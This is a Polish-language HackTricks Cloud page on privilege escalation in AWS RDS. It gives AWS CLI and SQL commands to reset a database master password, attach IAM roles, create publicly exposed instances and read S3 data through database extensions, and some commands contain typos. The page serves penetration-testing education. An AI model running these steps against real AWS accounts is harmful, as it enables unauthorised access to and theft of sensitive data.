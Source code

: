 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relacyjna Usługa Baz Danych

Aby uzyskać więcej informacji o RDS, sprawdź:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Dzięki temu uprawnieniu atakujący może **zmienić hasło użytkownika głównego** oraz logowanie w bazie danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Będziesz musiał **skontaktować się z bazą danych** (zwykle są one dostępne tylko z wewnętrznych sieci).
{% endhint %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) użytkownik z tym uprawnieniem mógłby połączyć się z instancją DB.

### Nadużycie uprawnień roli RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli uruchamiając **`SELECT datname FROM pg_database;`** znajdziesz bazę danych o nazwie **`rdsadmin`**, wiesz, że jesteś w **bazie danych AWS postgresql**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych była używana do uzyskania dostępu do jakiejkolwiek innej usługi AWS. Możesz to sprawdzić, patrząc na zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz założyć, że ta baza danych ma **jakiegoś rodzaju dostęp do S3** (są inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Również, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz zobaczyć, czy **klaster ma przypisaną jakąkolwiek rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz założyć, że baza danych była **przygotowana do uzyskania dostępu do innych usług AWS**. Na podstawie **nazwa roli** (lub jeśli możesz uzyskać **uprawnienia** roli) możesz **zgadnąć**, jaki dodatkowy dostęp ma baza danych.

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz to przeczytać za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli miałeś **surowe dane uwierzytelniające AWS**, mógłbyś je również wykorzystać do uzyskania dostępu do danych S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli uruchomisz zapytanie **`SELECT User, Host FROM mysql.user;`** i jest użytkownik o nazwie **`rdsadmin`**, możesz założyć, że jesteś w **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql uruchom **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, mają wartości, możesz założyć, że baza danych jest przygotowana do uzyskania dostępu do danych S3.

Ponadto, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klaster ma jakąkolwiek **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **przeczytać plik wewnątrz bucketu**, musisz znać pełną ścieżkę. Możesz go przeczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Atakujący z uprawnieniami `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącego instancji RDS**. Może to umożliwić atakującemu **dostęp do wrażliwych danych** lub modyfikację danych w obrębie instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby stworzyć **nową instancję w istniejącym klastrze**, która już istnieje i ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może być w stanie wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący z uprawnieniami `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub zmodyfikować dane w instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przyjęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Atakujący z uprawnieniami `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to pozwolić atakującemu na **dostęp do wrażliwych danych** lub modyfikację danych w instancji.

{% hint style="warning" %}
Instancja DB musi być poza klastrem, aby to
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
